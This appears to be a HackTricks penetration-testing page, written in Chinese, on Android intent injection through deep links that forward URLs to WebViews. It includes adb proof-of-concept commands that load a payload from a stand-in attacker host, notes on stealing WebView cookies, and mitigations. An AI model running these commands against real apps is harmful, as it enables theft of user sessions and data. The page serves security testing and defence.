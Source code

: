 # Intent Injection

{{#include ../../banners/hacktricks-training.md}}

Intent injection 利用接受攻击者控制的 Intents 或稍后转换为 Intents 的数据的组件。在 Android 应用渗透测试中，有两种非常常见的模式：

- 将精心制作的 extras 传递给导出的 Activities/Services/BroadcastReceivers，这些 extras 随后被转发到特权的、未导出的组件。
- 触发导出的 VIEW/BROWSABLE 深度链接，将攻击者控制的 URL 转发到内部 WebViews 或其他敏感接收点。

## Deep links → WebView sink (URL parameter injection)

如果一个应用程序暴露了一个自定义方案深度链接，例如：
```text
myscheme://com.example.app/web?url=<attacker_url>
```
当接收的 Activity 将 `url` 查询参数转发到 WebView 时，您可以强制应用在其自己的 WebView 上下文中渲染任意远程内容。

通过 adb 的 PoC:
```bash
# Implicit VIEW intent
adb shell am start -a android.intent.action.VIEW \
-d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# Or explicitly target an Activity
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
-d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```
影响
- HTML/JS 在应用的 WebView 配置中执行。
- 如果启用了 JavaScript（默认或由于检查顺序错误），您可以枚举/使用任何暴露的 `@JavascriptInterface` 对象，窃取 WebView cookies/本地存储，并进行转移。

另请参见：

{{#ref}}
webview-attacks.md
{{#endref}}

## 启用 JavaScript 的检查顺序错误

一个反复出现的错误是在最终 URL 允许列表/验证完成之前启用 JavaScript（或其他宽松的 WebView 设置）。如果早期的助手接受了您的深层链接，并且 WebView 首先被配置，则即使后续检查存在缺陷或太晚，您的最终加载也会在 JavaScript 已启用的情况下发生。

在反编译代码中要查找的内容：
- 多个助手以不同方式解析/拆分/重建 URL（不一致的规范化）。
- 在最后的主机/路径允许列表检查之前调用 `getSettings().setJavaScriptEnabled(true)`。
- 一个管道，如：解析 → 部分验证 → 配置 WebView → 最终验证 → loadUrl。

缓解措施
- 进行一次规范化并严格验证；失败时关闭。
- 仅在所有检查通过后并在加载受信任内容之前启用 JavaScript。
- 避免将桥接暴露给不受信任的来源。

## 其他经典的 Intent 注入原语

- 使用攻击者提供的 `Intent` 附加数据启动活动/发送广播，这些数据随后被重新解析（`Intent.parseUri(...)`）并执行。
- 导出代理组件在没有权限检查的情况下将 Intents 转发到未导出的敏感组件。

## 参考文献

- [Android – 访问应用保护组件](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Samsung S24 漏洞链 Pwn2Own 2024 演练](https://medium.com/@happyjester80/samsung-s24-exploit-chain-pwn2own-2024-walkthrough-c7a3da9a7a26)
- [Pwn2Own 爱尔兰 2024 – Samsung S24 攻击链（白皮书）](https://maliciouserection.com/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html)
- [演示视频](https://www.youtube.com/watch?v=LAIr2laU-So)

{{#include ../../banners/hacktricks-training.md}}
